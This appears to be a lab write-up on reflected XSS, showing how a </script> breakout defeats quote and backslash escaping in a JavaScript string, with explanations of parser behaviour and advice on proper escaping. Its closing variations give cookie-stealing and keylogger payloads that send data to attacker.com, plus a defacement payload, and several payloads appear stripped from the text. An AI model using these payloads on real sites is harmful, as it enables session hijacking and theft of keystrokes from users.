

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify Reflected XSS vulnerability in JavaScript string context
- 🎯 Understand single quote and backslash escaping mechanism
- 💉 Discover ability to break out of `<script>` block entirely
- 🔗 Leverage HTML context injection after closing script tag
- 🚨 Exploit by closing script and injecting new HTML
- 🎉 Execute `alert()` function via HTML injection to solve lab

---

## 🧠 **Concept Recap**

> **Reflected XSS into a JavaScript string with single quote and backslash escaped** occurs when user input is reflected inside a JavaScript string literal within a `<script>` block, and the application escapes single quotes (`'`) and backslashes (`\`) to prevent string breakout. However, if the application doesn't prevent closing the entire `<script>` tag, an attacker can break out of the JavaScript context entirely and inject new HTML tags with event handlers, bypassing the string-level protections.

### 📊 **The Vulnerability**

**Normal JavaScript string reflection:**

```html
<script>
    var searchTerm = 'USER_INPUT';
</script>
```

**Attempting string breakout (BLOCKED):**

```HTML
User input: test' ; alert(1) ; '

Application escapes:
- Single quote (') → \'
- Backslash (\) → \\

Reflected as:
<script>
    var searchTerm = 'test\' ; alert(1) ; \'';
</script>

Result:
└── Quotes are escaped
    └── String doesn't break
        └── Remains as string literal
            └── No code execution ❌

Browser parsing:
searchTerm = "test' ; alert(1) ; '"
└── The escaped quotes become literal quote characters in the string
    └── alert(1) is just TEXT inside the string
        └── Never executed! ❌
```

**Attempting backslash bypass (BLOCKED):**

```HTML
User input: test\' ; alert(1) ; '

Application escapes:
- Backslash (\) → \\
- Single quote (') → \'

Reflected as:
<script>
    var searchTerm = 'test\\' ; alert(1) ; \'';
</script>

Why it fails:
└── Our backslash (\) gets escaped to (\\)
    └── So test\' becomes test\\'
        └── The \\ is a literal backslash
            └── The \' still escapes the quote
                └── String still doesn't break! ❌

Browser parsing:
searchTerm = "test\' ; alert(1) ; '"
└── Still a complete string
    └── No code execution! ❌
```

**Successful attack by breaking out of script context:**

```HTML
Attacker discovers: Can't break out of STRING, but can break out of SCRIPT!

Step 1: Realize the limitation
- Single quotes are escaped → Can't break string
- Backslashes are escaped → Can't escape the escape
- Need different approach! 🎯

Step 2: Break out of <script> tag entirely
Input: </script>

Application behavior:
- Doesn't escape < or >
- Doesn't prevent </script> tag
- Only escapes quotes and backslashes

Reflected as:
<script>
    var searchTerm = '</script>';
</script>

Step 3: Browser parsing (CRITICAL)
Browser HTML parser:
1. Reads: <script>
2. Reads: var searchTerm = '
3. Reads: </script>  ← CLOSES THE SCRIPT TAG!
4. Script tag ends here (browser doesn't care about JavaScript syntax)
5. Continues parsing as HTML
6. Finds: 
7. Creates img element
8. src=x fails to load
9. onerror triggers
10. alert(1) executes! 💥

Resulting DOM structure:
<script>
    var searchTerm = '
</script>

';  ← This becomes TEXT outside any tag
</script>  ← This is leftover (ignored)

Why this works:
└── Browser's HTML parser has PRIORITY over JavaScript parser
    └── When HTML parser sees </script>, it IMMEDIATELY closes the script
        └── Even if it creates invalid JavaScript
            └── Remaining content parsed as HTML! ✓
```

**Key Insight:**

```HTML
The fundamental principle:

HTML parsing vs JavaScript parsing:
└── Browser uses HTML parser FIRST
    └── HTML parser finds tags (<script>, </script>, , etc.)
        └── JavaScript parser only processes content INSIDE <script> tags
            └── HTML parser doesn't understand JavaScript syntax! ⚠️

This means:
└── HTML parser sees: <script> ... </script>
    └── It closes script at FIRST </script> it finds
        └── Even if that </script> is inside a JavaScript string
            └── JavaScript syntax doesn't matter to HTML parser! 💥

Example breakdown:

Code: <script> var x = '</script>'; </script>

HTML parser view:
<script>        ← Script starts
var x = '       ← Content
</script>       ← SCRIPT ENDS! (parser doesn't see quotes)
     ← New HTML tag
';              ← Text content
</script>       ← Ignored (no matching open tag)

JavaScript parser view (if it ran):
var x = '       ← String starts
</script>'; ← String content
</script>       ← Syntax error (unexpected token)

But JavaScript parser NEVER RUNS:
└── Because HTML parser already closed the script!
    └── JavaScript in first <script> block is invalid
        └── Browser ignores errors in <script>
            └── Continues parsing rest as HTML
                └──  tag created and executes! ✓

The escaping doesn't matter:
└── Application escapes: ' → \'
    └── Application escapes: \ → \\
        └── But doesn't escape: <, >, /
            └── So </script> is reflected LITERALLY
                └── HTML parser sees it and closes script! ✓

Why this bypass works:

Layer 1: String-level protection
✅ Single quotes escaped
✅ Backslashes escaped
✅ Cannot break out of JavaScript string
└── Protection seems complete...

Layer 2: HTML-level vulnerability  
❌ Angle brackets NOT escaped
❌ </script> tag NOT blocked
❌ Can close script tag entirely
└── Break out to HTML context! 💥

The attack hierarchy:
└── Level 1: JavaScript string escaping (EFFECTIVE)
    └── Level 2: Script tag containment (VULNERABLE)
        └── We bypass Level 1 by escaping to Level 2! 🎯

Real-world analogy:
└── A prisoner can't break the lock on their cell door (string escaping)
    └── But they discover the WALL is weak (script tag)
        └── They break through the wall instead! ✓

Complete attack flow:

1. Input: </script>

2. Application processing:
   - Checks for single quotes: None found ✓
   - Checks for backslashes: None found ✓
   - Reflects input as-is: </script>

3. HTML response:
   <script>
       var searchTerm = '</script>';
   </script>

4. Browser HTML parser:
   - Finds <script> → Script block starts
   - Finds </script> → Script block ENDS (first one it sees)
   - Finds  → Parses as HTML tag
   - Creates img element

5. Browser rendering:
   - Attempts to load img src=x
   - x is not a valid URL → Load fails
   - onerror event fires
   - alert(1) executes! 💥

6. JavaScript parser (never fully runs):
   - First script block: var searchTerm = '
   - This is invalid JavaScript (unclosed string)
   - Browser doesn't throw visible error
   - Just stops parsing that block
   - But  tag already created by HTML parser! ✓

Why developers miss this:

Common misconception:
"I'm escaping quotes and backslashes, so JavaScript string is safe!"

Reality:
└── JavaScript string IS safe (can't break string syntax)
    └── But </script> tag breaks out of JavaScript ENTIRELY
        └── Different layer of security needed! ⚠️

What developers should do:
└── Escape JavaScript special characters (quotes, backslashes)
    └── AND escape HTML special characters (<, >, &)
        └── Or use safe JavaScript contexts (JSON encoding)
            └── Defense in depth! ✓

Browser behavior consistency:
└── ALL major browsers behave this way
    ├── Chrome: HTML parser closes script at </script>
    ├── Firefox: HTML parser closes script at </script>
    ├── Safari: HTML parser closes script at </script>
    └── Edge: HTML parser closes script at </script>
        └── It's part of HTML parsing specification! ✓

Alternative payloads (all work):

Payload 1: Using onerror
</script>

Payload 2: Using onclick
</script>
└── Requires user click (not ideal)

Payload 3: Using onfocus + autofocus
</script><input onfocus=alert(1) autofocus>

Payload 4: Using SVG onload
</script><svg onload=alert(1)>

Payload 5: Using body onload (if not already present)
</script><body onload=alert(1)>

All work because:
└── All break out of script context
    └── All inject HTML with event handlers
        └── All execute JavaScript in HTML context! ✓

Why WAFs might miss this:
└── Payload looks like HTML, not JavaScript
    └── No JavaScript special characters (no quotes, semicolons)
        └── WAF looking for JavaScript injection patterns
            └── Might not detect HTML injection! ⚠️

The beauty of this technique:
└── Exploits fundamental browser architecture
    └── HTML parser and JavaScript parser are separate
        └── HTML parser takes precedence
            └── Cannot be "fixed" - it's by design! 🎯
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Initial Exploration**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Locate the **search functionality**

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search box
│                                    │
│ Recent Posts:                      │
│ ├── Post 1: "Web Security"         │
│ ├── Post 2: "XSS Basics"           │
│ └── Post 3: "JavaScript Security"  │
│                                    │
└────────────────────────────────────┘
```

**Initial observation:**

```
✅ Search functionality present
✅ Input field and search button visible
💡 Let's test basic reflection
```

---

### 🔎 **Step 2 — Test Basic Input Reflection**

1. 🖱️ Click in the search box
2. ✏️ Type a test query: `test123`
3. 🚀 Click **"Search"** button

**URL changes to:**

```
https://YOUR-LAB-ID.web-security-academy.net/?search=test123
```

**Page displays:**

```
┌────────────────────────────────────┐
│ Search Results                     │
├────────────────────────────────────┤
│                                    │
│ 0 search results for 'test123'     │
│                                    │
└────────────────────────────────────┘
```

**Key observation:**

```
✅ Search term appears in results
✅ Reflected in page content
💡 Need to check page source to find context
```

---

### 🔬 **Step 3 — View Page Source to Find Context**

1. 🖱️ Right-click on page → **"View Page Source"** (or press Ctrl+U / Cmd+U)
2. 🔍 Search for your test string: `test123`

**Found in the source:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Blog</title>
</head>
<body>
    <section class="search">
        <form action="/" method="GET">
            <input type="text" name="search">
            <button type="submit">Search</button>
        </form>
    </section>
    
    <section class="blog-header">
        <h1>0 search results for 'test123'</h1>
    </section>
    
    <script>
        var searchTerms = 'test123';
        document.write('');
    </script>
</body>
</html>
```

**Critical discovery:**

```
🎯 INPUT REFLECTED IN JAVASCRIPT!

Location found:
<script>
    var searchTerms = 'test123';  ← HERE!
    document.write('...');
</script>

Context analysis:
├── Inside <script> tag
├── Inside JavaScript string literal
├── Surrounded by single quotes: 'USER_INPUT'
└── Vulnerable JavaScript context! 💥

This means:
└── User input goes into JavaScript variable
    └── If we can break the string syntax
        └── We can inject JavaScript code
            └── XSS possible! 🎯
```

---

### 💉 **Step 4 — Test String Breakout with Single Quote**

Let's try to break out of the string using a single quote.

1. 🔍 In search box, enter: `test'`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchTerms = 'test\'';
    document.write('...');
</script>
```

**Analysis:**

```
❌ Single quote is ESCAPED!

Input: test'
Output: test\'

Escaping mechanism:
└── Application converts ' to \'
    └── Backslash escapes the quote
        └── Quote becomes literal character in string
            └── String doesn't break! ❌

Browser parsing:
var searchTerms = 'test\'';
                       ↑↑
                       └┴─ Escaped quote (literal ' in string)
└── String value is: test'
    └── String syntax remains valid
        └── No code injection! ❌

Why this blocks injection:
└── We wanted: 'test' ; alert(1) ; '
    └── But got: 'test\' ; alert(1) ; \'
        └── The \' makes the quote part of the string
            └── ; alert(1) ; is still inside the string
                └── Not executed as code! ❌
```

---

### 🧪 **Step 5 — Test Backslash Escape Bypass**

Let's try to use a backslash to escape the escape.

1. 🔍 In search box, enter: `test\'`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchTerms = 'test\\\'';
    document.write('...');
</script>
```

**Analysis:**

```
❌ Backslash is ALSO ESCAPED!

Input: test\'
Output: test\\\'

Escaping mechanism:
├── Application escapes \ to \\
├── Application escapes ' to \'
└── Result: test\\\'

Browser parsing:
var searchTerms = 'test\\\'';
                       ↑↑ ↑↑
                       || └┴─ Escaped quote
                       └┴─ Escaped backslash

String value: test\'
└── Contains literal backslash and quote
    └── String syntax still valid
        └── Still can't break out! ❌

The double escape:
└── Our \ gets escaped to \\
    └── Our ' gets escaped to \'
        └── So test\' becomes test\\\'
            └── The \\ is one backslash
                └── The \' is one quote
                    └── Both literal in the string! ❌

Why this blocks the bypass:
└── We hoped: test\' would become test\\'
    └── Making the second quote unescaped
        └── But application escapes BOTH \ and '
            └── No way to escape the escape! ❌
```

---

### 💡 **Step 6 — Realize the Limitation and Find Alternative**

**Current situation:**

```
Protection in place:
├── Single quotes (') → Escaped to \'
├── Backslashes (\) → Escaped to \\
└── Cannot break out of JavaScript string! ❌

But wait... 🤔

What about breaking out of <script> tag ENTIRELY?
└── If we can close the script tag
    └── We enter HTML context
        └── Can inject HTML tags
            └── HTML tags can have event handlers
                └── Different attack vector! 💡

The key insight:
└── Focus changed from "break JavaScript string"
    └── To "break out of script context"
        └── Different level of attack! 🎯
```

---

### 🎯 **Step 7 — Test Script Tag Breakout**

Let's test if we can inject `</script>` tag.

1. 🔍 In search box, enter: `</script>`
2. 🚀 Click **"Search"**

**View page source:**

```html
<script>
    var searchTerms = '</script>';
    document.write('...');
</script>
```

**But here's what browser actually parses:**

```html
<script>
    var searchTerms = '
</script>
';
    document.write('...');
</script>
```

**Critical analysis:**

```js
🎯 BREAKTHROUGH!

What we expected:
└── </script> to be escaped or filtered
    └── But it's NOT! ✅

What actually happens:
1. HTML parser reads: <script>
2. HTML parser reads: var searchTerms = '
3. HTML parser reads: </script>
   ↓
   HTML parser says: "Script tag ends here!"
   ↓
4. Script tag CLOSED by HTML parser
5. Remaining content: '; document.write('...'); </script>
   ↓
   Parsed as HTML text (not JavaScript)

Key insight:
└── HTML parser doesn't understand JavaScript syntax
    └── It just looks for </script> tag
        └── When found, closes the script IMMEDIATELY
            └── Even if it breaks JavaScript syntax! ✓

This means:
└── We can close script tag
    └── Then inject HTML
        └── HTML can include tags with event handlers
            └── XSS possible via HTML injection! 💥
```

**Test to confirm:**

```
View the page in browser (not just source)
└── Check browser console (F12 → Console tab)
    └── You might see JavaScript error:
        "Uncaught SyntaxError: Invalid or unexpected token"
        └── Because var searchTerms = ' is incomplete
            └── But page still loads
                └── Browser ignores the error! ✓

This confirms:
└── Script tag closed prematurely
    └── JavaScript is invalid
        └── But we can inject after </script>! 🎯
```

---

### 🛠️ **Step 8 — Construct HTML Injection Payload**

Now let's inject an HTML tag with an event handler.

**Payload construction:**

```js
Goal: Execute alert(1)

Strategy:
1. Close the script tag: </script>
2. Inject HTML tag with event handler
3. Use auto-executing event (no user interaction)

Payload options:

Option 1:  with onerror (BEST)
</script>
└── img tries to load src=x (invalid)
    └── onerror fires automatically
        └── alert(1) executes! ✓

Option 2: <svg> with onload
</script><svg onload=alert(1)>
└── SVG loads, onload fires
    └── alert(1) executes! ✓

Option 3: <input> with onfocus + autofocus
</script><input onfocus=alert(1) autofocus>
└── Input auto-focuses on load
    └── onfocus fires
        └── alert(1) executes! ✓

Recommended: Option 1 (most reliable)
</script>
```

**Why this works:**

```js
Payload: </script>

Step-by-step execution:

1. HTML response:
   <script>
       var searchTerms = '</script>';
       document.write('...');
   </script>

2. Browser HTML parser:
   <script>
       var searchTerms = '
   </script>  ← CLOSES HERE
     ← NEW HTML TAG
   ';
       document.write('...');
   </script>  ← This is ignored (no matching open tag)

3. DOM structure created:
   <script>
       var searchTerms = '
   </script>
   
   
4. Browser rendering:
   - Tries to load image from src="x"
   - "x" is not a valid URL
   - Image fails to load
   - onerror event fires
   - alert(1) executes! 💥

5. Result: XSS successful! ✓
```

---

### 🧪 **Step 9 — Test the Payload**

1. 🔍 In search box, enter:

```js
</script>

OR
   
</script><script>alert(1)</script>
```

2. 🚀 Click **"Search"**

**Expected behavior:**

```
Browser loads page
         ↓
HTML parser reads response
         ↓
Finds <script> tag
         ↓
Reads: var searchTerms = '
         ↓
Finds </script> tag
         ↓
CLOSES script tag
         ↓
Continues parsing as HTML
         ↓
Finds: 
         ↓
Creates img element in DOM
         ↓
Attempts to load src=x
         ↓
Load fails (x is not valid URL)
         ↓
onerror event fires
         ↓
alert(1) executes! 💥
```

**Alert popup appears:**

```
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ 1                                  │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘
```

**Success indicators:**

```
✅ Alert popup displays
✅ Shows "1"
✅ Executes automatically (no user interaction)
✅ XSS successful! 🎉

Verification in source:
<script>
    var searchTerms = '
</script>

';
    document.write('...');
</script>

Check browser DevTools (F12):
├── Elements tab → See  tag in DOM
├── Console tab → May see JavaScript error (expected)
└── Network tab → See failed request to "x" resource
```

---

### ✅ **Step 10 — Understanding Why It Works**

**Deep dive into browser behavior:**

```js
The HTML parser priority:

HTML specification rule:
└── When parsing HTML, the parser looks for tags
    └── <script> tag starts JavaScript context
        └── </script> tag ENDS JavaScript context
            └── Parser doesn't interpret JavaScript syntax! ⚠️

This means:
└── Inside <script>: var x = '</script> more content'
    └── JavaScript sees: var x = ' (incomplete string)
        └── But HTML parser sees: </script> (end of script)
            └── HTML parser WINS! 💥

Why JavaScript errors don't prevent XSS:
└── First script block has syntax error
    └── Browser logs error to console
        └── But continues parsing rest of HTML
            └── Our injected  still created
                └── onerror still fires
                    └── alert(1) still executes! ✓

The parsing timeline:

Time: 0ms - Page loads
Time: 10ms - HTML parser starts
Time: 20ms - Finds <script> tag
Time: 30ms - Reads content: var searchTerms = '
Time: 40ms - Finds </script> tag
Time: 41ms - Closes script (JavaScript incomplete)
Time: 50ms - Finds 
Time: 60ms - Creates img DOM element
Time: 70ms - Attempts to load src=x
Time: 80ms - Load fails (404 or invalid URL)
Time: 90ms - onerror event dispatched
Time: 100ms - alert(1) executes! 💥

Why escaping doesn't help:
└── Application escapes: ' and \
    └── But doesn't escape: < > /
        └── So </script> is reflected literally
            └── HTML parser sees it and closes script
                └── Escaping ' and \ is irrelevant! ✓

Comparison with secure implementation:
├── Vulnerable: var x = 'USER_INPUT';
│   └── Escapes ' and \ but not </>
│       └── Can inject </script>
└── Secure: var x = 'USER_INPUT';
    └── Escapes ', \, <, >, &
        └── </script> becomes &lt;/script&gt;
            └── Not parsed as tag! ✓
```

---

### 🎯 **Step 11 — Lab Completion**

**If you see the alert, the lab is automatically solved!**

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited         │
│  reflected XSS in a JavaScript      │
│  string context by breaking out of  │
│  the script tag entirely and        │
│  injecting HTML with an event       │
│  handler.                           │
│                                     │
│  Lab: Reflected XSS into a          │
│       JavaScript string with        │
│       single quote and backslash    │
│       escaped                       │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Test search functionality
         → search=test123 → Reflected in page ✓
         ↓
Step 3: View page source
         → Find: <script> var searchTerms = 'test123'; </script>
         → Context: JavaScript string literal! 🎯
         ↓
Step 4: Test single quote escape
         → Input: test'
         → Output: test\'
         → Single quote is escaped! ❌
         ↓
Step 5: Test backslash escape bypass
         → Input: test\'
         → Output: test\\\'
         → Backslash also escaped! ❌
         → Cannot break string syntax! ❌
         ↓
Step 6: Realize limitation
         → String escaping is effective
         → Need different approach
         → What about breaking out of <script> entirely? 💡
         ↓
Step 7: Test script tag breakout
         → Input: </script>
         → Output: </script> (NOT escaped!)
         → HTML parser closes script tag
         → Can break out to HTML context! ✓
         ↓
Step 8: Construct HTML injection payload
         → </script>
         → Closes script tag
         → Injects img with onerror handler
         → Auto-executing event! ✓
         ↓
Step 9: Test payload
         → Submit search with payload
         → Browser parses HTML
         → Script closes prematurely
         → img tag created
         → onerror fires
         → alert(1) executes! 💥
         ↓
Step 10: Understand why it works
         → HTML parser has priority
         → Doesn't understand JavaScript syntax
         → Closes script at first </script>
         → Remaining content parsed as HTML! ✓
         ↓
Step 11: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **HTML Parser vs JavaScript Parser**

```js
The fundamental browser architecture:

Two separate parsers:

1. HTML Parser (Primary)
   └── Processes HTML markup
       └── Identifies tags: <html>, <body>, <script>, etc.
           └── Creates DOM tree
               └── Determines document structure

2. JavaScript Parser (Secondary)
   └── Processes content inside <script> tags
       └── Compiles and executes JavaScript code
           └── Only runs on content HTML parser identifies as JS

The hierarchy:
└── HTML Parser is FIRST
    └── HTML Parser finds <script> tags
        └── Content inside <script> sent to JavaScript Parser
            └── HTML Parser still looks for </script> to end it! ⚠️

Key rule: HTML Parser doesn't understand JavaScript syntax

Example 1: Normal JavaScript
<script>
    var x = "hello";
</script>

HTML Parser:
1. Finds <script> → Script starts
2. Reads: var x = "hello";
3. Finds </script> → Script ends
4. Sends "var x = "hello";" to JavaScript Parser

JavaScript Parser:
1. Receives: var x = "hello";
2. Parses and executes
3. No errors ✓

Example 2: String containing </script>
<script>
    var x = "hello</script>world";
</script>

HTML Parser:
1. Finds <script> → Script starts
2. Reads: var x = "hello
3. Finds </script> → Script ENDS (doesn't see quotes!)
4. Sends 'var x = "hello' to JavaScript Parser
5. Continues parsing: world"; as HTML text
6. Finds </script> → Ignores (no matching <script>)

JavaScript Parser:
1. Receives: var x = "hello
2. Syntax error: Unclosed string!
3. Throws error (but page continues) ❌

Example 3: XSS exploitation
<script>
    var x = '</script>';
</script>

HTML Parser:
1. Finds <script> → Script starts
2. Reads: var x = '
3. Finds </script> → Script ENDS
4. Sends 'var x = '' to JavaScript Parser
5. Continues parsing:  as HTML
6. Creates img element in DOM
7. Finds '; as text content
8. Finds </script> → Ignores

JavaScript Parser:
1. Receives: var x = '
2. Syntax error: Unclosed string!
3. Error logged but ignored

Browser Rendering:
1. img element created
2. Attempts to load src=x
3. Fails → onerror fires
4. alert(1) executes! 💥

Why this behavior exists:

Historical reasons:
└── HTML parsing predates JavaScript
    └── Needed simple rule to end <script>
        └── </script> tag always ends script
            └── No exceptions! 🎯

Specification compliance:
└── HTML5 spec: </script> ends script tag
    └── Regardless of quotes or context
        └── ALL browsers implement this
            └── Cannot be changed (breaking change)

Real-world impact:
└── Developers assume string escaping is enough
    └── Forget about HTML-level injection
        └── Leads to XSS vulnerabilities
            └── Defense in depth required! ⚠️

Testing HTML parser behavior:

Example code:
<script>
var msg = '</script><h1>TEST</h1>';
console.log(msg);
</script>

What developers expect:
└── JavaScript sets msg to '</script><h1>TEST</h1>'
    └── Console logs the string
        └── Page shows nothing special

What actually happens:
└── HTML parser closes script at first </script>
    └── <h1>TEST</h1> parsed as HTML
        └── Page shows: TEST as large heading
            └── console.log never runs (script ended)

Browser DevTools verification:

1. Elements tab:
   <script>
   var msg = '
   </script>
   <h1>TEST</h1>
   '; console.log(msg); </script>

2. Console tab:
   Uncaught SyntaxError: Invalid or unexpected token

3. Rendered page:
   Shows "TEST" heading

This proves:
└── HTML parser splits the script
    └── Creates HTML elements in between
        └── JavaScript code after </script> is ignored
```

---

### **Why String Escaping Doesn't Prevent This**

```HTML
The layers of security:

Layer 1: JavaScript String Syntax
└── Protection: Escape ' and \
    └── Goal: Prevent breaking string literal
        └── Effectiveness: ✅ WORKS for JavaScript syntax

Layer 2: Script Tag Containment
└── Protection: Prevent </script> injection
    └── Goal: Prevent breaking out of script block
        └── Effectiveness: ❌ MISSING in vulnerable app

The vulnerability:
└── Application only implements Layer 1
    └── Layer 2 is missing
        └── Can bypass Layer 1 by escaping to HTML context! 💥

Why escaping ' and \ doesn't help:

Scenario 1: Without </script> injection
Input: '; alert(1); '
Escaped: \'; alert(1); \'
Result: var x = '\'; alert(1); \'';
JavaScript: x = "'; alert(1); '" (string value)
Execution: No code runs ✓ (Escaping works)

Scenario 2: With </script> injection
Input: </script>
Escaped: </script> (no change)
Result: var x = '</script>';
HTML Parser: Closes script at </script>
DOM:  tag created outside script
Execution: onerror fires, code runs! ❌ (Escaping fails)

Why escaping doesn't help:
└── Escaping fixes JavaScript string syntax
    └── But we're not breaking JavaScript syntax
        └── We're breaking OUT of JavaScript context
            └── Different attack layer! 🎯

What the application escapes:
├── ' (single quote) → \'
├── \ (backslash) → \\
└── That's ALL

What the application DOESN'T escape:
├── < (less than)
├── > (greater than)
├── / (forward slash)
└── These create </script> tag!

Secure escaping would be:
├── ' → \'
├── \ → \\
├── < → \x3c or \u003c
├── > → \x3e or \u003e
└── / → \/ or \x2f

Example of secure escaping:
Input: </script>
Escaped: \x3c/script\x3e\x3cimg src=x onerror=alert(1)\x3e
JavaScript: x = "</script>"
Result: String value (literal text)
Execution: No code runs ✓

Why \x3c works:
└── JavaScript recognizes \x3c as < character
    └── So string contains literal < character
        └── But HTML parser sees: \x3c (not <)
            └── Not recognized as tag! ✓

Alternative secure escaping:
└── HTML entity encoding
    └── < → &lt;
        └── > → &gt;
            └── Results in: &lt;/script&gt;&lt;img...&gt;
                └── HTML parser doesn't create tags
                    └── Shows as literal text! ✓

The key difference:
├── JavaScript escaping: Prevents breaking JavaScript syntax
├── HTML escaping: Prevents creating HTML tags
└── Need BOTH for defense in depth! ✓
```

---

### **The Browser's HTML Parsing Rules**

```HTML
HTML5 parsing specification:

Script tag behavior:
└── <script> tag enters "script data" state
    └── Parser looks for </script> to exit this state
        └── Everything between is "script content"
            └── Except when </script> appears! ⚠️

The </script> detection rule:
└── Parser in "script data" state
    └── Sees: </script
        └── Followed by: > or space or tab or \n or \r or /
            └── EXITS script data state
                └── Resumes normal HTML parsing! 💥

This means:
└── Parser doesn't care about:
    ├── JavaScript strings
    ├── JavaScript comments
    ├── JavaScript syntax
    └── Context within JavaScript

Examples:

Example 1: In string
<script>
var x = '</script>';  ← Parser closes here!
</script>

Parser sees:
<script> ... </script> ← First script
';</script> ← Text content

Example 2: In comment
<script>
// comment </script> still closes!
alert(1);
</script>

Parser sees:
<script> ... </script> ← Script ends at comment
alert(1); </script> ← Text content

Example 3: Multiple times
<script>
var a = '</script>';
var b = '</script>';
</script>

Parser sees:
<script> ... </script> ← Closes at first one
'; var b = '</script> ← Text
'; </script> ← Text

Why this can't be fixed:
└── Changing this would break millions of pages
    └── It's a fundamental HTML parsing rule
        └── All browsers must comply
            └── Security must work around it! ✓

Legitimate use that would break:
<script>
// This would break if rule changed:
document.getElementById('code').innerHTML = 
    'Example: <script>alert("hi")</script>';
</script>

If parser understood JavaScript:
└── Would need to parse entire JavaScript syntax
    └── Understand strings, comments, regex, etc.
        └── Too complex and performance-heavy
            └── Current simple rule is by design! ✓

Security implications:
└── Developers must escape < > in JavaScript strings
    └── Even if escaping quotes and backslashes
        └── HTML-level escaping is REQUIRED
            └── Not optional! ⚠️
```

---

## 🚀 **Attack Variations**

### **Variation 1: Using SVG onload**

```HTML
Payload: </script><svg onload=alert(1)>

How it works:
<script>
    var searchTerms = '</script><svg onload=alert(1)>';
</script>

Browser parsing:
<script>
    var searchTerms = '
</script>
<svg onload=alert(1)>
';
</script>

Execution:
└── Script closes at first </script>
    └── SVG element created
        └── SVG loads
            └── onload event fires
                └── alert(1) executes! ✓

Benefits:
✅ No image 404 error in console
✅ Cleaner than img onerror
✅ Works reliably

Usage:
Submit: </script><svg onload=alert(1)>
Result: Alert displays ✓
```

---

### **Variation 2: Using input with autofocus**

```HTML
Payload: </script><input onfocus=alert(1) autofocus>

How it works:
<script>
    var searchTerms = '</script><input onfocus=alert(1) autofocus>';
</script>

Browser parsing:
<script>
    var searchTerms = '
</script>
<input onfocus=alert(1) autofocus>
';
</script>

Execution:
└── Script closes
    └── Input element created
        └── autofocus attribute makes it focus on load
            └── onfocus event fires
                └── alert(1) executes! ✓

Benefits:
✅ No failed resource load
✅ Standard HTML elements
✅ Auto-triggers via autofocus

Usage:
Submit: </script><input onfocus=alert(1) autofocus>
Result: Alert displays ✓
```

---

### **Variation 3: Using body onload (if body not present)**

```HTML
Payload: </script><body onload=alert(1)>

How it works:
If page doesn't already have <body> tag:
<script>
    var searchTerms = '</script><body onload=alert(1)>';
</script>

Browser parsing:
<script>
    var searchTerms = '
</script>
<body onload=alert(1)>
';
</script>

Execution:
└── Script closes
    └── Body element created (or attributes added to existing)
        └── Page finishes loading
            └── onload event fires
                └── alert(1) executes! ✓

Note:
⚠️ If <body> already exists, this might not work
⚠️ Browser typically ignores second <body> tag
⚠️ Better to use img or svg

Usage:
Submit: </script><body onload=alert(1)>
Result: May or may not work (depends on page structure)
```

---

### **Variation 4: Cookie Stealing**

```HTML
Real attack payload:

</script>

Purpose:
└── Steals victim's session cookie

Attack flow:
Victim searches (or clicks link)
         ↓
Payload reflected in script
         ↓
Script closes, img created
         ↓
onerror fires
         ↓
fetch() sends cookie to attacker
         ↓
Attacker receives session cookie
         ↓
Session hijacking! 💀

Better version (bypasses CORS):
</script>

Why Image().src is better:
└── No CORS preflight requests
    └── Works cross-origin
        └── More reliable! ✓

URL-encoded version:
%3C%2Fscript%3E%3Cimg%20src%3Dx%20onerror%3D%22new%20Image().src%3D'https%3A%2F%2Fattacker.com%2Fsteal%3Fc%3D'%2Bdocument.cookie%22%3E
```

---

### **Variation 5: Keylogger**

```HTML
Persistent keylogger payload:

</script>new Image().src='https://attacker.com/log?k='+e.key">

Purpose:
└── Logs every keystroke

Impact:
Every key victim types
         ↓
Sent to attacker server in real-time
         ↓
Captures passwords, credit cards, messages! 💀

How it works:
1. Script closes, img created
2. onerror fires once
3. Sets up global keylogger via document.onkeypress
4. Every key press triggers new Image request
5. Key value sent to attacker server
6. Continues until page closed

Why dangerous:
└── User unaware of keylogger
    └── Continues typing normally
        └── Everything captured
            └── Long-term data theft! ⚠️
```

---

### **Variation 6: Page Defacement**

```HTML
Defacement payload:

</script>HACKED BY ATTACKER</h1>'">

Purpose:
└── Replaces entire page content

Effect:
Page loads
         ↓
Script closes
         ↓
img created
         ↓
onerror fires
         ↓
Entire page replaced with message
         ↓
Shows: "HACKED BY ATTACKER" 💥

Use cases:
├── Hacktivism
